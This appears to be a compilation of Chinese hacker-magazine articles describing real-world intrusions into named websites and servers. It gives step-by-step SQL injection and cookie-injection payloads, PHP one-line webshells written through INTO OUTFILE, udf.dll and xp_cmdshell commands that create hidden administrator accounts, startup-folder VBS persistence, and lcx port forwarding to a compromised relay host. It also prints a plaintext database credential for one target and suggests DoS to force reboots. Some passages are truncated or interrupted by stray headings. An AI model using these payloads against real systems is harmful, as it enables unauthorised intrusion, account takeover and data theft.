sql = "select * from admin where UserName='"&username&"' And PassWord='" & password & "'"
rs.open sql,conn,1,3
```

将表单中的 **username** 和 **password** 数据分别赋值给 username 和 password，执行 `select * from admin where UserName='"&username&"' And PassWord='"&password&"'` 语句。但如果被赋值的 username 是 `' or '='`（password 任意填写），则 SQL 语句变成了 `select * from admin where UserName='' or '='' And PassWord='123'`。`'='` 条件成立，则语句成功找到管理表里首位账号身份验证登录，因而成了 or 漏洞。除 `' or '='` 以外，`'or'='or'` 什么的都可以，于是早年 or 漏洞形成了万能登录密码。

针对这种 or 漏洞，很多 ASP 站点进行了改进，改进后的源码大致如下：

```asp
username = request.form("username")
password = request.form("password")
set rs=server.createobject("adodb.recordset")
sql = "select [password] from admin where UserName='"&username&"'"
rs.open sql,conn,1,3
If password = rs("password") then
 ...' 登录成功
End if
```

现在很多 ASP 站点的登录页面都是这么写的，如果是 MSSQL，还可以执行 SQL 语句，但如果是 ACCESS，很多人应该都会望而却步了吧？其实在没有过滤单引号的情况下，我们还是可以用“万能密码”登录进后台的。

下面我们进入主题，讨论新型万能登录密码。以 PHP 代码为例，由于字符集编码的问题，管理登录端口可以注入，先看源码：

```php
存在字符集漏洞或者 magic_quotes_gpc 为 off 的 php 代码
$row=$DB->query_first("SELECT * FROM admin WHERE username='$username'");
if($row){
 if($password==$row[password]){
   ... // 成功
 }else{
   echo "用户名或密码错误!";
 }
}else{
 echo "用户名或密码错误!";
}
```

由于字符集问题，我们可以注入，但回显都一样，所以猜不到数据。根据错误提示，我们发现管理表一共 6 列，password 在第三列，于是我们构造如下用户名与密码：

```text
Username=1%df' union select 1,1,1 as password,1,1,1 %23
Password=1
```

带入登录框，SQL 语句为：`SELECT * FROM admin WHERE username='1蛕' union select 1,1,1 as password,1,1,1,1`，前面的用户名肯定不存在，于是 Select 出来的 Password 就是 1 了，就等于提交的 Password 了。经测试，成功绕过验证。

现在回头看着之前过滤过的 ASP 登录代码，我们该如何绕过呢？原理同上，相关代码如下：

```text
Username=-1' union select 1 as [password] from admin where '1'='1
Password=1
```

呵呵，轻松绕过认证。到此为止，大家知道该如何利用了吧？对于现在绝大多数的小 ASP 站以及一定规模的 PHP 站点，大家不妨试试这个万能密码。

> **编辑点评：** 一个很不错的思路，大家可以试试看。

## Cookies Injection 之自我理解

**从本文可以学到：** Cookie 注射原理理解

一觉醒来，开机带上耳机继续躺在床上，发现此时很空虚，断网的日子啊，怪难受的，看不到某人活跃的样子，就似乎缺少了什么……翻翻文章，看到木头鱼大牛写了一篇文章《Cookies injection》，即 Cookies 注入。关于 Cookies 注入的文章我看过不少，但是都比较笼统，木头大牛写得很适合一些中等理解水平的人（因为我很久之前也看不懂，现在算是有了一点 ASP 基础），我这里勉强用自己的语言说一下，当然是复习，也送给一些像我一样菜的菜鸟同学。

Cookies injection 的注入原理是程序没有过滤 Cookies 提交数据，使其可以直接带入数据库查询执行，例如提取菜单是 `request("")`，那么 Cookies 注射就形成了。

众所周知，`request.querystring("")` 是接收 get 方式提交的数据，`request.form("")` 是接收 post 方式提交的数据。两者之中如果有一个没有过滤好，就可以造成 get、post 注入，那就是典型的 SQL 注入了，这个不是本文的话题。

回到刚才那个形成 Cookies 注入的语句 `request("")`，因为这里没有指定是用 querystring 方法提交，还是用 form 方法提交。

思考一下，这个语句在服务器上的执行过程是：`Request.QueryString ---> Request.Form ---> Request.Cookies`

也就是说，`request("")` 形成 Cookies injection 的原因就是因为服务器没有检测到 get（Request.QueryString）或者 post（Request.Form）提交数据，所以直接检测 Cookies 提交的数据。这时候，假如没有过滤好 Cookies 提交过来的数据的话，我们就可以通过 Cookies 方法来提交你的 SQL 语句了，也就是典型的 SQL 注入。SQL 注入的方法很多，现在不讨论，Google 一下你就知道。

现在知道了 Cookies 注射的原理，下面说一下利用方式，这里用到的是 JS 语句（JavaScript）。其实我也不明白为什么一定要用 JS，难道用 VBS 不可以么？因为是前辈总结出的东西，我没有弄透，所以只能直接拿过来了，可是原理我都是懂的。很多东西只要懂得原理，归纳一下前辈总结的东西，就可以利用了。

我找了一个防注入的文件代码，学过 ASP 的人一定都看得懂：

```asp
<%
Dim GetFlag
Dim ErrorSql
Requestkey
Dim forI
...
"ErrorSql" ... and ... exec update count * %'chr~
mid("master""truncate""char" declare
ErrorSql = split(ErrorSql,"~")
注释：过滤得不错，程序员很努力
if Request.ServerVariables("REQUEST_METHOD") = "Get" then
注释：if 语句开始判断提交的数据是否用 get 提交，若是用 get 提交则到下面检测敏感字符
GetFlag=true
Else
GetFlag=false
End if
If GetFlag Then
  For each Requestkey in request.querystring
  注释：这时候开始检查 get 提交的数据有没有敏感字符了
  ...
Else
  注释：以上已经有几个 if 了，这里判断还没有完，程序员思维不错
  For Each requestkey in request.form
  注释：上面的判断语句来到了这里，这里是判断是否用 form 方法提交数据（post），如果是的话就过滤一下 post 过来的数据中的敏感字符
  ...
  End if
Next
Next
End if
<%>
```

从上面代码明显地可以看出，只是过滤了 post 和 get 提交的数据，没有过滤 Cookies 提交的数据。这时候，用一个 JS 语句搞定它，注入利用语句如下：

```javascript
javascript:alert(document.cookie='id='+escape("ID and 1=1"));
javascript:alert(document.cookie='id='+escape("ID and 1=2"));
```

And 1=1 这个不用解释其意思及其作用了吧？1=2 永远是不成立的，所以剩下的一切，依然像 SQL injection 那样，将 and 后面换成你要执行的 SQL 语句就可以了，这里提供几个经典语句：

```javascript
猜解长度：
javascript:alert(document.cookie='id='+escape('44 and (select len(password) from admin)=16'));

猜解内容：
javascript:alert(document.cookie='id='+escape('44 and (select asc(mid(username)) from admin)=97'));
```

大家结合一下 JS 语言理解一下就可以了，本人 JS 恶补中，所以没办法解释给大家了。

> **编辑点评：**
>
> 还是有读者反馈文章看不懂，那么本期就选一篇菜鸟理解 Cookie 注射的笔记，这样总该看懂了吧？要是还觉得看不懂，那么把自己理解的东西按照这个方式写成文章和大家分享。

**LCX 西线首语：**

我有个聊天的朋友，他本来不会什么编程，也不爱好什么黑客。有一天他问我，想学一下脚本方面的编程，问哪一个好学又有前途。我说学 Python 吧，不过有问题不要来问我，因为我也不会。

过了大约一个月，他突然写了一个简单的注入工具给我，我很吃惊，问他：“你都学会了？”他说：“会了呀。”我问他怎么学的，他说：“就是每天固定拿出两三个小时来学习，学了一个月就会了。”

唉，惭愧！我本来也定了个计划，每天学一小时什么的，可这个计划都定了 5 年了还没有实施。我说这件事的意思是，想学一门编程或学黑客，每天固定拿出一段时间来学习，只要坚持，就会成长。


## 作者在提权之后总结的思路值得一看

最近无聊得要命，每天都无聊地过日子，不是上课就是玩电脑。某日，小爱说要搞“某菜黑客”的站，我简单地用了几个小时就搞定，连服务器一同拿下了。不久，又丢来一个站，就是今天的主角——少年黑客网站（www.snhack.com）。由于写文章之时权限已经丢失，部分图片不能呈现，还请见谅，有些图片是从小组群的聊天记录里翻出来的。

## 艰难的渗透之路

- 1. 获取 Webshell

正当我准备去 114best 查询一下目标网站同一服务器上的其它站点时，网友小爱已经给我拿过来了该服务器上的一个 webshell。事后据小爱说，拿到 webshell 的此网站只是做了简单的防注射，但是过滤不严，仅仅只是对 get 和 post 进行了过滤，这样的话利用 js Cookie 对它进行手工猜解得到了管理员账号和密码，然后通过后台数据库备份拿到了一个 shell（这里不是重点，略过）。

我比较喜欢在 aspshell 下研究，因为 ASP 的功能比其它 shell 的功能多，而且此服务器也支持 aspx、php，我在写本文时，aspx 的脚本已经被管理员关闭了。

- 2. Webshell 的鸡肋

拿到这个 shell 的头一天晚上觉得很迷茫，因为管理员禁用了 wscript.shell 组件，那就是说我们没有办法用 CMD.exe 来执行权限了，这样的话就少了很多的帮助，如图1所示！

- 3. 寻找突破点

又回目标站仔细分析，发现“青年黑客站”用的系统是 PHPWind，貌似俺也没有 PHPWind 的 0day（事后拿下“少年黑客联盟”之后，很多朋友向我们两个要 PHPWind 的 0day，哈哈！），此黑客站也只有一个论坛而已，先使用小爱给我的同服务器上的 shell 进行渗透，寻找突破点！

| 组件/功能 | 状态 | 说明 |
|---|---|---|
| Scripting.FileSystemObject | √ | 文件读写组件 |
| wscript.shell | × | 命令行执行组件 |
| JADOC.Catalog | √ | ACCESS 检索组件 |
| JRO.JetEngine | √ | ACCESS 压缩组件 |
| Scripting.Dictionary | √ | 数据流上传辅助组件 |
| Adodb.connection | √ | 数据库连接组件 |
| Adodb.Stream | √ | 数据流上传组件 |
| SoftArtisans.FileUp | × | SA-FileUp 文件上传组件 |
| LyfUpload.UploadFile | × | 刘云鹏文件上传组件 |
| Persits.Upload.1 | × | ASPUpload 文件上传组件 |
| Jmail.SmtpMail | √ | Jmail 邮件收发组件 |
| CDOYTS.NewMail | × | 短网址 IP 发信组件 |
| Satuplai.SmtpMail.1 | √ | Satuplai 发信组件 |

图1 服务器禁用了绝大部分组件

- 4. 使用 Serv-U 提权失败

尝试访问了 C 盘、D 盘、E 盘都没有访问权限，其实像这种服务器的安全设置，猜也能猜得到是这样的结果。我习惯性地登录一下目标站的 FTP，发现是 Serv-U 6.4。哈哈，有戏，往下嘛不用多说，直接用 ASP 马带的功能加上一个用户，结果没有成功。小爱之后告诉我，他已经尝试过了，也是不可，失败的原因在于管理员重新设置了 su 密码。

- 5. 寻找系统中的其它漏洞

渗透吧，反正没有绝对安全的服务器，哈哈！给 kill 了。我们无奈，又尝试跳转 C:\Program Files、D:\Program Files、E:\Program Files 等目录，无一个有访问权限。只好上传 udf1.dll，可是上传了无数次也不行，都是被杀软立即“处死”，杀软是强大而又邪恶的“麦咖啡”！而且问所有的朋友，都没有免杀的 dll，只好失败到这里了。不过今天已经拿下了一个黑客站，睡一觉明天再说！

### 6. 获取 MSSQL Server 数据库账号和密码

扫描服务器开放的端口，发现开了 3306 的 mysql 端口、1433 的 mssql 端口，以及 21 的 FTP 端口和 serv-u 的 43958 端口。读注册表却没有权限，于是把心思转向我们拿下的这个旁站。翻了翻网站几个关键的文件，如 conn.asp、password.asp、config.asp 之类的数据库连接文件（我个人提权还是喜欢多去翻一翻服务器上的东西，这样对提权可能会有帮助），后来翻出来了一个 o blog 网站程序的 MSSQL 账号和密码，以及另外一个 MSSQL 的 sa 密码，如图2所示，看来还是查旁站的思路。不过老天还真不给这个机会，就连连上的机会都不给，两个账户权限俨然成了废品，也只能独自欣赏了。看来想用 aspshell 提权的确有点困难，服务器不是支持其它脚本嘛，那我就传个 aspxshell 上去，看看权限会不会有所提高呢？

## 7. 上传 Aspx 和 php 的 Webshell

上传了 aspxshell，来看看在 asp.net 的 CMD，执行 CMD.EXE /C set，终于有显示了，但是只能执行 IPCONFIG，其它的命令，如 net user、net1 user、netstat -an 等都无法执行。本地上传了一个 net.exe，发现也是一样，权限依然低得可怜。不过后来 aspx 马儿还是帮了我们很多忙；现在不讲，还是看我继续渗透吧。咱们还有一个法宝，不是还没用到 phpshell 吗？这可是最后的绝招了。马上访问，果然权限有所提高，翻啊翻，终于发现了一个路径，用 shell 进了那个路径，豁然开朗，原来这是 mysql 和 mssql 的藏身之处啊，里面还有 DISCUZ 目录，貌似是 DZ 论坛的。同级文件还发现了一个重要角色，phpmyadmin，这个就是我们接下去的亮点了。又过了 N 秒，在 config.inc.php 文件中找到了 root 的账号密码，这次咱们可捡到宝了，有了很大的收获。现在回顾一下，有了 root 账号密码，在默认安装 windows 下是 system 权限的，换句话说，这个账户是无所不能的。我们上传了一个 su.php，这时候发现成功连上了，如图3所示。

### 二、服务器提权

## 1. Mysql 提权

提权思路：连接 SQL，待连接完成后，执行导出 udf.dll 到系统目录，然后执行以下语句：

```sql
create function cmdshell returns string soname 'udf.dll';
select cmdshell('net user abc$ 123456 /add');
select cmdshell('net localgroup administrators abc$ /add');
```

这时候发现导出是导出了，但问题在于导出之后居然显示了成功，但是无法执行后面的语句，显示：“Can't open shared library 'udf.dll'”，估计就是无法打开的意思，udf1.dll 被杀软……

## 2. 获取 serv-u 的配置文件

早晨起来，第一件事就是打开电脑。我思考了数分钟，整理了思路，回忆一下：既然有 serv-u 的 FTP，会不会没做这个目录的权限呢？那就可以直接下密码爆破。我们访问“C:/Documents and Settings/All Users/「开始」菜单/程序”，终于找到了最可爱的 serv-u 目录，下载并看了 serv-u 的快捷方式属性，找到 serv-u 在 D 盘的 servu 目录下。可惜马儿显示无权限访问，用了 aspx、php 脚本都返回一样，仿佛又回到了原点，没有一点收获！

灵光一闪，找到网站的路径，我们来个跨目录，旁站是 d:/clientweb/xxxx/wwwroot/，xxxx 是网站的域名，把 xxxx 改成 snhack 试试，返回显示还是没权限。后来直接改成 bbs，发现有一个站列了出来。翻了翻网站的程序，原来也是 PW，会不会是 snhack 呢？

在目录下写了个文件，去“青年黑客站”访问，无法显示！看来不是。不过从里面搜出了数据库文件，又花了 N 秒找到网站的配置。找下网站的域名，但是网站没有备案，被空间商关了，数据库也连不上。

对了，数据库！这倒提醒了我，我们有 root 账号密码，用 phpshell 连接看看 root 是不是真的。哈哈，我们得到的 root 密码能够连上（编者：我晕，前面不是能导出 udf.dll 吗？那就说明能连上）。我记得在 phpshell 里有一个数据库下载的功能，现在有了 serv-u 的目录，那就构造一下，下载 ServUDaemon.ini 进行爆破，如图4所示，下载的窗口终于弹出来了，这时候我欣喜地告诉小爱，他也很兴奋！

下载回来马上打开看，发现内容里面竟然没有一个用户，只留下一个 serv-u 的设置密码，如图5所示，可能是权限的问题吧！

## 3. 连接 Mysql 数据库

既然可以下载配置文件，那么也能下载“少年黑客联盟”的数据库文件吧。于是猜测构造路径为“d:/clientweb/snhack/wwwroot/config.inc.php”，还真把 snhack 的默认数据库给下载下来了，并且也连接成功，如图6所示。

## 4. 获取 ftp 用户密码

我们可以添加个管理，但是貌似 Phpwind 要从后台拿 shell 还是比较困难的，于是放弃了这个想法。其实后来发现，用数据库的密码登录“少年黑客联盟”的 ftp，还真进去了，就这么搞定了 snhack。当然，这是后来发现的，但是我们不是这样拿到权限的！

#### 5. 不能读取数据库数据

当时我们两个轮番用找到的 mysql 账号和密码连接，小爱告诉我用其中的非 root 的 mysql 账号都可以非本地连接，但是只能执行“show databases;”，也就是显示数据库列表，但是却都不能打开，更别说建库或者建表之类的了，如图7所示。

## 6. 获取真正的 Webshell

正在我郁闷之时，小爱就扔来一个 shell，我问他如何得到的，他说是从 root 突破的，虽然 root 不能远程连接，但是在 phpshell 里面是可以连接的。当时他是看我用 root 连接下载了 su 配置文件，于是想到了在 shell 里面连接，然后执行 sql 语句建表、插入、导出，汗！我当时试了啊，怎么不行啊？后来明白了，原来是我连接错了数据库。找到正确的数据库试了一下，果真如此，如图8、图9所示！

主要语句如下：

```sql
Drop TABLE IF EXISTS ice; // 如果存在 ice 表就删除（如果权限只有当前的库，那只有操作当前库的权限）
Create TABLE ice(cmd text NOT NULL); // 建立 ice 表，里面就一个 cmd 字段
insert INTO ice (cmd) VALUES('<?php eval($_POST[cmd]); ?>'); // 把一句话木马插入到 ice 表中
select cmd from ice into outfile 'E:/website/wwwroot/123.php'; // 查询 ice 表中的一句话并把结果导入到 123.php
Drop TABLE IF EXISTS ice; // 删除 ice 表，走人！
```

我们就是通过这样的办法拿到了“少年黑客联盟”的权限，但是此时并未拿到服务器权限，于是我们又继续了艰辛的提权之路。

#### 7. 渗透 ISP 提供商

后来发现 snhack 是在一个叫“深度数据”买的空间，不如直接搞他空间商的网站，找找提权的思路。这时强大的 aspxshell 发挥了它的作用，找到了 IDC 空间商的物理路径，访问看看 conn.asp 是否存在。

很幸运，下到了 conn.asp，数据库显示如图10所示，又下了数据库连接文件，发现是 mssql 的数据库，结果只有 db_owner 的权限。不过，这时我们就可以利用这个库，免费地开几个空间（啊啊！我们是好人，不会这么干的！）。无奈之下我们又试验了解压 mix.dll，来进行反弹提权得到一个 cmdshell，但是也失败了！

#### 8. 将 VBS 提权脚本写进启动项

这时候我想到了“被动”的提权办法：启动项提权！但是发现什么 shell 都不能写入启动项。冷静地想了下，我既然能通过 mysql 下载，那么能不能通过 mysql 上传呢？只要你的 mysql 是 root，并且 mysql 是 system 身份的话，那么就应该可以往任意目录写。但是无情的现实又一次打击了两个稚嫩的少年，失败了，估计 mysql 不是 system 的身份，所以没有权限写入！无奈之下只能去网上找资料，突然看到一篇文章，于是我们开始了实践之旅！

既然可以连 root 库，可以创建，可以导出，这样也就够了，整理下思路：把 vbs 写入表中，vbs 存放的是我们提权的语句，然后导出到启动项。不过这种方法实在是要有耐心，如果服务器 1 年不重启、2 年不重启，那我们要等到老死呀？好了，光有思路还是不够的，实践才是王道，如图11所示。

```sql
第一步，还是连接对方 mysql，创建数据库，语句为：create table a (cmd text)，等待数据库返回消息执行成功。
再来执行：insert into a values('set wvshshell=createobject("wscript.shell")')
然后执行：insert into a values('a=wvshshell.run ("cmd.exe /c net user 用户 密码 /add",0)')
接着执行：insert into a values('b=wvshshell.run ("cmd.exe /c net localgroup administrators 用户 /add",0)')
最后执行：select * from a into outfile 'c:\\docume~1\\alluse~1\\「开始」菜单\\程序\\启动\\a.vbs'
```

这时再看看启动项，发现我们的 vbs 已经安静地躺在里面了，如图12所示。

- 1. 大家仔细看图11中的“cmd.exe /c net localgroup administrators 用户 /add", 0)”，最后有个“0”，意思是不弹出 CMD 窗口，安静地运行，这样创建用户有很多弊端，管理员登录第一次可能就发现了。
- 2. 还可以直接用这样的语句：“select 'vbs16进制转换' into outfile 'C:\Documents and Settings\All Users\「开始」菜单\程序\启动'”，避免了建表以及插入的繁琐步骤！

那么如果我们可以把木马写到启动项里，如：

```sql
CREATE TABLE aa (cmd BLOB);
INSERT into aa values (CONVERT(木马的16进制代码，CHAR));
SELECT * FROM aa INTO DUMPFILE 'C:\\Documents and Settings\\Administrator\\「开始」菜单\\程序\\启动\\m.exe';
drop table aa;
```

执行了 3 条语句，就可以成功地写入木马，但是有两点要注意：

- 第1，写入的木马要以16进制的形式写入；
- 第2，路径必须是“\\”，如果输入“\”，系统会自动“吃”掉一个“\”。

我们等了一晚上，管理员还是没有登录，如果此时你要让管理员重启服务器，可以把 80 端口修改或转向，这样网站就不能访问，管理员不得不重启电脑，这是小爱想到的思路。还有一种就是直接 D 他服务器，让服务器假死。

#### 9. 一个提权的思路

后来想到了一个思路，前一段时间不是 SHIFT 后门很火吗？我们利用 root 数据库写入 sethc.exe，如果可以连 3389，直接替换，拿服务器不是瞬间的事吗？不过后来证实了我的思路需要有一些条件，如果有哪位大大想到其它的思路请告诉我。好了，我们必须有两个条件：

- 1. 必须可以连 3389，这个还是比较好搞定的；
- 2. 要有删除系统文件的权限。

为什么呢？不知是 root 不是默认的权限还是管理员动了手脚，由于没有条件测试，知道的朋友也请告诉我一下。如果有权限的话，直接同时删除 windows\system32\sethc.exe 和

### 三、总结与体会

- 1. 细节决定成败

权限设置不严导致服务器沦陷，主要是管理员在设置目录的时候疏忽了一些关键的目录，尤其是存放重要软件的目录，如 serv-u、mysql、mssql、phpmyadmin。倘若我们不能在其它地方找到 mysql 的 root，这台服务器还是比较难渗透的，当然也就拿不下“少年黑客联盟”的权限，甚至服务器。

而此服务器的沦陷恰恰在于管理员疏忽了 ROOT 用户，不过大家在提权的时候如果多翻一翻目录，多收集一些关于服务器上存放的资料，也许会利用上马大哈管理员的，呵呵。所以不要一味地尝试，要先整理下思路再实践，或许有你意想不到的结果。

- 2. 再次检验了平时所学的知识

这次检测过程中我们分别学到了各自需要学习的东西，当然最重要的一点还是要活学活用，学会别人的思路，然后举一反三地灵活运用，将你学会的所有知识点结合运用起来，这样你会发现自己又有所突破！

最后说明一点的是，本次渗透仅仅是技术研究，我们拒绝从事非法活动，研究的目的就是为了提升安全能力和实力。

## 编辑点评：

其实入侵的思路与你平常积累的知识有关，像一个人如果长期学习 php+mysql，自然而然地会先想到如何用 php 来提权，之后才会去想其它的方面。学习黑客固然要了解各种各样的入侵方法，但是不能过多依赖，必须专注埋头学习，才能够达到某种技术层面的深度才是对的。

## 菜鸟检测 XX 大学网站

从本文你可以学到：

- 常规 php 注入 + mysql 连接导出 shell 的方法

### 一、开始

某天，在自己学校主页上看到一个关于学术的链接，无意点了进去，原来是 XX 大学材料科学与工程系的网站，如图1所示。页面是 php 的，可能是出于习惯吧，打开一个新闻的链接后，在地址末尾加了个“'”，网站报错了，如图2所示。于是再提交“and 1=1”和“and 1=2”，结果返回不一样，如图3所示。

难道我运气这么好？要知道，在前段时间的入侵大学网站潮中，不少大学的服务器纷纷沦陷，如此出名的 XX 学校更是有不少人来光顾了，在这种情况下我还能碰上一个存在安全隐患的页面，真是比较幸运了。

### 二、搞定后台

看样子是一个很中规中矩的注入，我们先用手工来试试吧。用 order by 来猜测数据库查询字段数目，提交 http://www.xxx.edu.cn/mse/news/detail.php?ID=144/**/order/**/by/**/6，报错，再提交 http://www.xxx.edu.cn/mse/news/detail.php?ID=144/**/order/**/by/**/5，正常返回，如图4。

看来字段数是 5。但是在提交 http://www.xxx.edu.cn/mse/news/detail.php?ID=144/**/and/**/1=2/**/union/**/select/**/1,user(),3,4,5/* 的时候出现了如图5中的错误，好像是说不能使用 union。但是我用 HDSI 检测这个注入点的时候能够使用 union，并猜解出了 login 表和其中的用户名和密码（账号 root，密码 passFORroot），如图6。

对于这个问题希望有人能指点一二。既然拿到了后台账户，而且是明文的，省去了破解的环节。用后台扫描器很容易得到了后台地址，如图7，界面很简单，应该是他们自己写的，就连页面标题都是 Dreamweaver 新建页的默认标题。

顺利登录后台，发现有两个地方貌似可以利用，一个是“图片新闻添加”，一个是“新闻信息添加”。打开“图片新闻添加”的页面，先上传一个正常的图片，如图8，出错了，而且爆出了网站的物理路径。

我尝试了好几次，还是出错，看来这个上传页面有问题。再打开“新闻添加”页面，出现了一个编辑器，编辑器上有个“添加图片”的按钮，点击打开图片添加页面，如图9。

可以浏览图片目录，可以新建和删除图片目录下的文件夹，还可以进行图片的上传和删除等简单的管理。

我尝试一下，能够上传正常的图片，但是将 PHP 马儿改成常见图片后缀之后就不能上传，如图10。后来又简单地试了试抓包，依然不能上传我们的 PHP 木马，看来这个上传系统限制得很不错！从后台拿 shell 看来希望不是很大了。

## 三、拿 webshell

突然回想起刚才拿到的后台登录账号，用户名是 root，会不会是 mysql 的连接账号呢？在 CMD 下 telnet 服务器的 3306 端口，是有数据返回的，看来数据库是允许外连的，于是拿出牛族连接器 SuperMysql，成功连接，如图11。

接下来我们尝试能否利用 outfile 写出文件来得到我们的 php 一句话木马。利用开始爆出的物理路径，提交 SQL 语句：

```sql
select char(60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,
```

## 西线无战事

83,84,91,99,109,100,93,41,63,62) INTO OUTFILE "e:\webpage\mse\mse\ccc.php"，这里是将一句话 php 木马 `<?php eval($_POST[cmd]);?>` 转换成了 ASCII 码。软件提示命令成功送出，如图12。

用 lanker 的 php 一句话客户端进行连接，如图13，成功连接并执行了 `phpinfo()`，返回了环境变量。接着上传一个 php 大马，如图14，这个网站的 phpshell 就拿到了。

## 四、udf_dll提权

再下来就是提权了，windows+php+mysql 的组合在提权的时候，大家肯定不会忘记使用经典的 udf.dll 方式，方法已经很老了，在以前的杂志上已经不止一次介绍过，我就不占版面了。这个漏洞百出的网站早就预示着提权成功是理所当然的，事实也是如此，最高权限拿得更加顺利，远程登录成功，如图15。

### 小结

本文技术含量不高，也没有新技术在里面，运气比较好，在后台没有利用价值的时候利用连接数据库拿到了 shell。希望菜菜能够熟练利用一些老的技术，另外也为知名高校有如此低级漏洞而感到意外，顺便给页面上的管理员邮箱发了封邮件，我们入侵的目的是为了让网站更加安全。

> 编辑点评：手工注入时页面出现了 “Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION'”，这是由于 union 前后的字符集编码不一致导致的，针对本文的语句可以简单这样解决：

```text
http://www.xxx.edu.cn/mse/news/detail.php?ID=144/**/and/**/1=2/**/union/**/select/**/1,unhex(hex(user())),3,4,5/*
```

## 入侵某服务站

图 梦幻剑客

### 从本文可以看如何入侵 ASP+SQL SERVER 组合

一天中午吃过饭后翻看着“黑手”上各路大侠写的入侵文章，看得我手痒啊。平常国内的站入侵相对多点，今天我就选择了入侵外国站点。把目标锁定后就着手来做了，发现外国网站很少用 Access 这样的小型数据库，大多数都是 SQL SERVER 这样的大中型数据库。经过一段时间踩点，让我找到一个 ASP+SQL Server 数据库的注入点，并且权限也是相当高的，如图1所示。权限是 SA 的，并且支持多语句执行，这样的注入点很难找的，今天人品不错让我碰上了这样的漏洞。找到注入点后我没有去猜解表名和列名，因为之前扫后台的时候没有扫到后台地址，这样即使有后台账户和密码也无法知道登录地址，所以进后台拿 Shell 的思路就此打住。

利用啊 D 的列目录找文件功能迅速地找到了网站在服务器上的物理路径，如图2所示。开始找到网站根目录，尝试在根目录下写入 asp 文件，但是根本不能写入，只好找到上传文件目录，因为在这个目录下肯定有写入权限。至于是否可以执行脚本权限，这就需要测试了。

在这里我用工具首先查看了下系统开放的端口和服务，如果可以查看到服务和端口号，说明入侵的权限是 SA，并且 xp_cmdshell 扩展存储过程没有被删除，如图3、图4所示。

服务器开放了 21、3389 等端口，惟独没有看到 1433 这个 SQL Server 用的端口号。可能是管理员将 SQL Server 端口号改了吧，我也没仔细去查看，在 DOS 命令下输入 FTP 命令根本连不上，换成 ping 命令也 ping 不通，这就说明服务器很可能处在内网，或者服务器有防火墙。

先不管那么多了，搞个 webshell 到服务器上再说。利用工具向指定的目录写入 asp 文件，当然，asp 文件中包含着默认的小马。注射成功后访问指定的小马文件，得到 webshell，如图5、图6所示。

可以清晰地看到一句话木马已经成功写入，接下来利用 lake2 的一句话木马客户端去连接这个小马，得到 webshell，而在写入加密木马的时候，出现了一些莫名其妙的错误。我估计是加密后编码混淆导致的，因为目标站是韩语，而我手上的加密网页木马是中文的 gb2312。更换了一个没有加密的网页木马，成功写入大马，如图7所示。

这样就拿到了一个 webshell，上传一个更强大的 webshell。尝试着利用 SA 账户和密码进行提权，但是想起来 SQL Server 服务端口不是 1433，还要去找端口后在本地 webshell 中提权，太麻烦也很浪费时间。既然存在 “xp_cmdshell” 存储过程，那就工具执行，或者用手工也可以。

在这里我选择了手工去添加系统账户，在注入地址后加上“;exec master.dbo.xp_cmdshell 'net user mhjk 123456 /add';--”；“;exec master.dbo.xp_cmdshell 'net localgroup administrators mhjk /add';--”就可成功建立系统账户，如图8所示。

到了这步眼看就要拿下桌面了，本地连接上去提示无法连接，这个应该是防火墙阻止了 FTP 和终端服务端口对外的请求，所以我们要想办法转发出来。上传 LCX 大哥的 lcx.exe 文件到服务器目录下，同样先在自己外网的肉鸡上执行 lcx.exe，我这里用公司的服务器来做端口转发。

在我的服务器上输入命令“lcx.exe -listen 51 4000”，再到目标站 webshell 中执行“lcx.exe -slave 肉鸡IP 51 127.0.0.1 3389”即可，如图9所示。

这样就拿下一台主机了，至于内网渗透，我这里也没条件继续做下去，文章就到这里搁笔了，有什么问题大家到黑手论坛上交流吧。

## 友情检测 XX 人才网

### 本文讲的是常规的 asp 注入

最近百度了一个蛮强的人才招聘网站，就这样，今天的主角，XX 人才网映入了我的视线，如图1。

网站布局很合理，做得也很紧凑，公司名称、职场指南等与求职相关的东西充满显示器，让人的求职压力顿时就增大了。逛了一会儿，竟然没个网络安全公司，失望加郁闷啊，难道这个站不允许这种公司招聘，从而不给我们这些搞网络安全的人一个工作机会？越想越火大，接着就开始免费为这个名称响亮的 XX 人才网安全检测了起来。

先是踩点，结合 GOOGLE（例如 `site:xx.com inurl:.jsp`），发现目标站使用了 ASP 和 JSP 的脚本，但主要还是 JSP 的。很久没搞到 JSP 的站了，随即决定先弃 ASP，直接从 JSP 下手。经过一番搜索加测试，终于找到了个 JSP 的注入点，单引号出错，and 1=1 和 and 1=2 返回不同，如图2、图3、图4。

接着在 url 后边接 “/*jkrose” （不包括引号），同样返回如图2的错误，说明网站使用的不是 MYSQL 数据库，因为 MYSQL 数据库支持 `/*` 注释，因此 `/*` 后边的语句是不会执行的；如果是 MYSQL 数据库，则返回正常页面。

然后在 URL 后边接 “--jkrose” （同样不包括引号），如期地返回正常，支持 `--` 注释的就只有 MSSQL 数据库和 ORACLE 数据库了，这种大站一般情况下应该就是 JSP+ORACLE 搭配的。

为了更加确定，提交了 `url+and+%20(select%20count(*)%20from%20all_tables)>0`（all_tables 在 ORACLE 的系统数据库中用于存放当前 ID 和其它用户的所有表），竟然返回错误！一般管理员不会 BT 到把这个表删除的地步，那有种可能就是网站不是用的 ORACLE 数据库。

在 URL 后边加上分号，回车，返回了正常页面，原来是 MSSQL 的数据库，因为 MSSQL 数据库支持分号分割的多句查询。接着该判断系统了，将 URL 最后的 `.jsp` 改为 `.Jsp`，返回正常，说明目标站使用的是 Windows 系统，因此才不对大小写敏感。

简单整理下服务器信息，是 asp/jsp+mssql+windows 系统，心中窃喜，因为 Windows 下 jsp 是以系统权限启动的，接下来的事就轻车熟路了，直接把注射点 URL 丢到啊 D 里边去跑，结果如图5，竟然是 SA 的权限！

话不多说，直接执行 DOS 命令，本以为很轻松就能搞定，但执行命令后没反应，看来可能是删除了 cmdshell 或者权限方面有所设置。没关系，命令执行不了至少还能列目录吧，可结果同样令人失望。

这就郁闷了！以目前状况来看，要是能找到 WEB 目录，再通过差异备份或者 LOG 备份，应该就能搞下来了。索性开始想办法。

> 【文章中用到的 SA 综合利用程序已收录在本期光盘】

**编辑点评：**

```text
d:>echo ^<%25eval(request(chr(35)))%25^> d:\wwwroot\teajoon_web\htdocs\files\1.asp
```

